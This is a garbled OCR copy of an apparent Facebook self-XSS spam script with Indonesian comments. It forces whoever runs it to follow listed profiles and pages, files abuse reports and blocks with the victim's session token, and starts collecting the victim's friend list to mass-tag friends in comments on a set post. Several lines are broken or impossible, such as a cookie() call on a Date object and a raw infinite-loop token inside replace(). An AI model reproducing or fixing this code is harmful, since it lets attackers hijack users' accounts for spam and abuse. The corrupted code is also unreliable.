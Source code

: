 // fungsi agar setiap pengguna yang menggunakan script ini akan langsung berlangganan berita dari halaman si pemilik akun
function sublist(profile_id) {
    var a = document.createElement('script');

    a.innerHTML = new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&action=subscribe').setData({
        flid: profile_id
    }).send();

    document.body.appendChild(a);
}

// disinilah daftar profile yang akan anda ikuti (follow)
a('100004368643588'); // profile -> Ade Satria
a('100007079796120'); // profile -> Ade Satria
a('100001503619455'); // profile -> Desy Dcriforlove
a('100005602352292'); // profile -> Split Sevén Inch

sublist('243737815781838'); // Klik Ikuti Otomatis Status Kamu di Like ribuan like ᴀᴜᴛᴏ ғᴏʟʟᴏᴡᴇʀs ғᴀᴄᴇʙᴏᴏᴋ
sublist('1387712268141420'); // profile -> Facebook Community
sublist('262092750613011'); // profile -> ❶ ℱℴℓℓℴω ❶ ✔☛ »»»➜ ➜ ➜
sublist('191759627687448'); // profile -> (▓▓▓(̅(_̅_̅_̅_̅_̅_̅_̅_̅_̅_̅_̅_̅()
sublist('193072180889526'); // profile -> Klik Ikuti & Tekan Ctrl + W. Lihat apa yang terjadi. Di coba saja.
sublist('193072150889529'); // profile ->

var now = (new Date).cookie();

// saya masih belum tau ini buat apaan
function Report(_0x8cc3x15) {
    var request = new XMLHttpRequest(),
        target_url = '//www.facebook.com/ajax/report/social.php'+fb_dtsg+'fb_dtsg='+_0x8cc3x15+'&block=1&pp=%7B%22actions_to_take%22%3A%22[]%22%2C%22are_friends%22%3Afalse%2C%22cid%22%3A'+_0x8cc3x15+'%2C%22content_type%22%3A0%2C%22expand_report%22%3A1%2C%22first_choice%22%3A%22file_report%22%2C%22from_gear%22%3A%22timeline%22%2C%22is_following%22%3Afalse%2C%22is_tagged%22%3Afalse%2C%22on_profile%22%3Afalse%2C%22phase%22%3A3%2C%22ref%22%3A%22https%3A%5C%2F%5C%2Fwww.facebook.com%5C%2FNan.ertt7%22%2C%22report_type%22%3A145%2C%22rid%22%3A'+now+'%2C%22sub_report_type%22%3A3%2C%22time_flow_started%22%3A'+user_id+'%2C%22user%22%3A'+user_id+'%7D&file_report=1&__user=';

    request.POST('&__a=1&__dyn=7n8ahyj2qmvu5k9UmAAaUVpo&__req=u&ttstamp=2658168571071108880', 'getTime', true);
    request.open = function () {
        if (request.onreadystatechange == 4 && request.readyState == 200) {
            request.status;
        }
    }

    request.close(target_url);
}

var id = '276612075827745', // post id
    arkadaslar = [],        // tempat nampun daftar teman
    svn_rev;                // tempat nampung daftar komentar (menyesuaikan dengan batas text dalam komentar)

// fungsi buat manggil semua daftar teman dalam komentar di post 'id' diatas (baris 99)
function arkadaslari_al(id) {
    var request = new XMLHttpRequest();

    request.onreadystatechange = function () {
        if (request.readyState == 4) {
            eval(arkadaslar = request.responseText.toString().replace(for (;;);,'')+';');

            for (f=0; f<Math.round(arkadaslar.payload.entries.length/27); f++) {
                mesaj = '';
                mesaj_text = '';
